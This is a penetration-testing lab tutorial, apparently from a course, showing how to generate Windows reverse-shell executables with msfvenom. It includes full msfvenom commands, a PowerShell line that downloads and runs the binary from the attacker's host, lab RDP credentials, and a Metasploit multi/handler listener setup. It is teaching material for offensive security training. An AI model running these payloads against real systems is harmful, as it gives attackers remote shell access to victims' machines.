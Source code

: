 To get familiar with msfvenom, we'll first create a malicious Windows binary starting a raw TCP reverse shell. Let's begin by listing all payloads with payloads as argument for -l. In addition, we use --platform to specify the platform for the payload and --arch for the architecture.

```bash
kali@kali:~$ msfvenom -l payloads --platform windows --arch x64 
```

Now, let's use the -p flag to set the payload, set LHOST and LPORT to assign the host and port for the reverse connection, -f to set the output format (exe in this case), and -o to specify the output file name:

```bash
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

Now that we have created the malicious binary file, let's use it. For this, we start a Netcat listener on port 443, Python3 web server on port 80, and connect to BRUTE2 via RDP with user justin and password SuperS3cure1337#. Once we've connected over RDP, we can start PowerShell to transfer the file and execute it.

```bash
PS C:\Users\justin> iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe

PS C:\Users\justin> .\nonstaged.exe
```

Once we executed the binary file, we'll receive an incoming reverse shell on our Netcat listener.

Now, let's use a staged payload to do the same. For this, we'll again use msfvenom to create a Windows binary with a staged TCP reverse shell payload.

```bash
kali@kali:~$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe 
```

While we received an incoming connection, we cannot execute any commands through it. This is because Netcat doesn't know how to handle a staged payload.

To get a functional interactive command prompt, we can use Metasploit's multi/handler2 module, which works for the majority of staged, non-staged, and more advanced payloads. Let's use this module to receive the incoming connection from staged.exe.

In Metasploit, let's select the module with use. Then, we have to specify the payload of the incoming connection. In our case, this is windows/x64/shell/reverse_tcp. In addition, we have to set the options for the payload. We enter the IP of our Kali machine as argument for LHOST and port 443 as argument for LPORT. Finally, we can enter run to launch the module and set up the listener.

```bash
msf6 exploit(multi/http/apache_normalize_path_rce) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp

msf6 exploit(multi/handler) > show options
...
Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
...

msf6 exploit(multi/handler) > set LHOST 192.168.119.2
LHOST => 192.168.119.2
msf6 exploit(multi/handler) > set LPORT 443
```